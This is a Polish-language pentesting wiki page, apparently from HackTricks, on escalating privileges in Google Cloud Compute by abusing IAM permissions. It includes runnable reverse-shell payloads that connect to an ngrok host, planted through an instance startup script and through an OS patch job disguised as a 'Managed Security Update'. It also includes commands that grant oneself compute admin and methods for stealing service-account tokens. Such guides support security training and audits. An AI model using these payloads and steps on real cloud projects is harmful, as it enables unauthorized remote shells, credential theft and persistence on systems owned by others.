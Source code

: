 # GCP - Compute Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Compute

Aby uzyskać więcej informacji na temat Compute i VPC (sieci) w GCP, sprawdź:

{{#ref}}
../../gcp-services/gcp-compute-instances-enum/
{{#endref}}

> [!CAUTION]
> Zauważ, że aby przeprowadzić wszystkie ataki eskalacji uprawnień, które wymagają modyfikacji metadanych instancji (takich jak dodawanie nowych użytkowników i kluczy SSH), **konieczne jest posiadanie uprawnień `actAs` do SA przypisanego do instancji**, nawet jeśli SA jest już przypisany!

### `compute.projects.setCommonInstanceMetadata`

Dzięki tym uprawnieniom możesz **modyfikować** informacje o **metadanych** instancji i zmieniać **autoryzowane klucze użytkownika** lub **tworzyć** **nowego użytkownika z uprawnieniami sudo**. W związku z tym będziesz mógł zalogować się przez SSH do dowolnej instancji VM i ukraść GCP Service Account, z którym działa instancja.\
Ograniczenia:

- Zauważ, że GCP Service Accounts działające w instancjach VM domyślnie mają **bardzo ograniczony zasięg**
- Będziesz musiał **móc skontaktować się z serwerem SSH**, aby się zalogować

Aby uzyskać więcej informacji na temat tego, jak wykorzystać te uprawnienia, sprawdź:

{{#ref}}
gcp-add-custom-ssh-metadata.md
{{#endref}}

Możesz również przeprowadzić ten atak, dodając nowy skrypt uruchamiający i restartując instancję:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

To uprawnienie daje **te same uprawnienia co poprzednie uprawnienie**, ale dla konkretnych instancji zamiast całego projektu. **Te same exploity i ograniczenia jak w poprzedniej sekcji mają zastosowanie**.

### `compute.instances.setIamPolicy`

Ten rodzaj uprawnienia pozwoli ci **przyznać sobie rolę z poprzednimi uprawnieniami** i eskalować uprawnienia, nadużywając ich. Oto przykład dodania `roles/compute.admin` do konta usługi:
```bash
export SERVER_SERVICE_ACCOUNT=YOUR_SA
export INSTANCE=YOUR_INSTANCE
export ZONE=YOUR_INSTANCE_ZONE

cat <<EOF > policy.json
bindings:
- members:
- serviceAccount:$SERVER_SERVICE_ACCOUNT
role: roles/compute.admin
version: 1
EOF

gcloud compute instances set-iam-policy $INSTANCE policy.json --zone=$ZONE
```
### **`compute.instances.osLogin`**

Jeśli **OSLogin jest włączony w instancji**, z tą uprawnieniem możesz po prostu uruchomić **`gcloud compute ssh [INSTANCE]`** i połączyć się z instancją. **Nie będziesz miał uprawnień roota** wewnątrz instancji.

> [!TIP]
> Aby pomyślnie zalogować się z tym uprawnieniem wewnątrz instancji VM, musisz mieć uprawnienie `iam.serviceAccounts.actAs` dla SA przypisanego do VM.

### **`compute.instances.osAdminLogin`**

Jeśli **OSLogin jest włączony w instancji**, z tą uprawnieniem możesz po prostu uruchomić **`gcloud compute ssh [INSTANCE]`** i połączyć się z instancją. Będziesz miał **uprawnienia roota** wewnątrz instancji.

> [!TIP]
> Aby pomyślnie zalogować się z tym uprawnieniem wewnątrz instancji VM, musisz mieć uprawnienie `iam.serviceAccounts.actAs` dla SA przypisanego do VM.

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Możliwe jest **utworzenie maszyny wirtualnej z przypisanym Kontem Usługowym i kradzież tokena** konta usługi uzyskując dostęp do metadanych, aby eskalować uprawnienia do niego.

Skrypt exploitacyjny dla tej metody można znaleźć [tutaj](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Jeśli masz uprawnienia **`osconfig.patchDeployments.create`** lub **`osconfig.patchJobs.exec`**, możesz utworzyć [**zadanie łatania lub wdrożenie**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). To umożliwi ci poruszanie się w poziomie w środowisku i uzyskanie wykonania kodu na wszystkich instancjach obliczeniowych w projekcie.

Zauważ, że w tej chwili **nie potrzebujesz uprawnienia `actAs`** dla SA przypisanego do instancji.

Jeśli chcesz ręcznie wykorzystać to, będziesz musiał utworzyć albo [**zadanie łatania**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **lub** [**wdrożenie**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Aby uruchomić zadanie łatania:
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
Aby wdrożyć wdrożenie poprawki:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Narzędzie [patchy](https://github.com/rek7/patchy) mogło być używane w przeszłości do wykorzystania tej błędnej konfiguracji (ale teraz nie działa).

**Atakujący mógłby również nadużyć tego dla utrzymania dostępu.**

### `compute.machineImages.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do obrazu maszyny.

### `compute.snapshots.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do migawki dysku.

### `compute.disks.setIamPolicy`

**Przyznaj sobie dodatkowe uprawnienia** do dysku.

### Ominięcie Zakresów Dostępu

Podążając za tym linkiem znajdziesz kilka [**pomysłów na ominięcie zakresów dostępu**](../).

### Lokalna Eskalacja Uprawnień w instancji GCP Compute

{{#ref}}
../gcp-local-privilege-escalation-ssh-pivoting.md
{{#endref}}

## Odniesienia

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../../banners/hacktricks-training.md}}
